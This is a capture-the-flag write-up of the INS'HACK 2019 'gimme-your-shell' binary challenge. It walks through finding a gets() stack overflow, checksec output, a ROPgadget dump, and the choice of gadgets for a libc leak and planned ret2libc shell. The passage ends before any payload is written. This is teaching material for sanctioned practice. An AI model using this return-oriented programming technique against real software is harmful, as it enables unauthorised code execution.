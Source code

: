 ### writeup by p4w@beerPWN team

# INS'HACK 2019 CTF
## gimme-your-shell PWN challnge

This is not the intended solution for this challenge since i used ROP to solve it.
We have a 64-bit binary and the libc of the remote server is NOT provided.
Let's start with a little bit of reverse on the binary.
As we can see from the image below the main() function will call the vuln() function.

![alt text](images/main.png)

The assembly of vuln() function show us that dangerous function 'gets()' will be used.

![alt text](images/vuln.png)

As we can see from the man page the gets(*s) function will read until \n or EOF, but there is no control on how many byte it will read and consequently write into *s.

![alt text](images/man_gets.png)

Reading the vuln function we can see that the argument for the gets function will be a variable located into the stack.
So what we expect from this is a stack-buffer overflow.
Let's verify this:

![alt text](images/segfault.png)

Segfault!
Let's also check for the protection on the binary
```
$ checksec ./weak
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : No
```
As we can see the binary has no protection at all. So potentially we can also inject a shellcode into the stack and jump on it, but instead of this i managed to do full ROP.
What i want to do to solve this challenge was make a memory-leak, restart execution and then ret2libc address to gain a shell.
So what i did at this point was start to find some gadgets.
```
$ ROPgadget --binary ./weak --depth 40
```

### The problem
As we can see from the dump there are NOT simple gadget like 'pop rdi' to control registers.
```
$ ROPgadget --binary ./weak --depth 40 |grep pop|grep ret
0x0000000000400519 : add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400510 : add byte ptr [rax + 0x39], cl ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400509 : add byte ptr [rax - 0x75], cl ; add eax, 0x20050f ; cmp rax, rbx ; jb 0x400512 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051b : add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050c : add eax, 0x20050f ; cmp rax, rbx ; jb 0x40050f ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050e : add eax, 0x39480020 ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400698 : add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051e : add esp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051d : add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050f : and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050c ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069b : clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069a : cmp eax, -1 ; jne 0x40069b ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400512 : cmp eax, ebx ; jb 0x400509 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400699 : cmp rax, -1 ; jne 0x40069c ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400511 : cmp rax, rbx ; jb 0x40050a ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400513 : fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069e : int1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400514 : jb 0x400507 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069d : jne 0x400698 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400516 : mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400697 : mov eax, dword ptr [rbx] ; cmp rax, -1 ; jne 0x40069e ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050b : mov eax, dword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400510 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400696 : mov rax, qword ptr [rbx] ; cmp rax, -1 ; jne 0x40069f ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050a : mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400511 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400693 : or bh, bh ; ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400507 : or byte ptr [rax], ah ; mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400514 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400522 : pop rbp ; ret
0x0000000000400521 : pop rbx ; pop rbp ; ret
0x0000000000400638 : pop rsp ; and al, 8 ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
0x000000000040069c : push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400695 : ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400518 : sti ; add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050d : syscall ; and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050e ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
```
Then i start to search for more complicated gadgets that chained together they will make me get control over rdi register.
The first gadget that i picked was this one:
```
0x0000000000400637 : mov ebx, dword ptr [rsp + 8] ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
```
and this is the second one:
```
0x0000000000400620 : mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call qword ptr [r12 + rbx*8]
```
With the first one we can basically get control over ebx, rbp, r12, r13, r14, r15 by writing double words into the stack at the correct offsett.<br>
Then we can use the second gadget that end with a call instruction.<br>
Since for now i just want to leak some libc address i'm just interesting on controlling rdi register with some got address and the call puts@GOT.
The second gadgets make a 'mov edi, r13d' then we need to place leak-addr@GOT into r13 with the first gadget.
I also need to make a call on puts() with the second gadget, then i need to set rbx=0 and r12=puts@GOT, and i can do that with the first gadget.
